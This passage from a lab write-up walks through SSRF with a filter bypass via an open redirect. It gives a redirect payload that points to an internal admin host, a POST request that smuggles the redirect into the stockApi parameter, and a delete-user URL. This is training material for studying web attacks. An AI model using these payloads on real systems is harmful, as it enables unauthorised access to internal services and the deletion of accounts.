We test the folowing payload and find the open redirection:

```
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/7.png)

Now we will create a new POST request using this payload as the stockApi parameter:

```
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
```



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/8.png)

Reading the HTML code we see the user carlos can be deleted with a GET request like http://192.168.0.12:8080/admin/delete?username=carlos

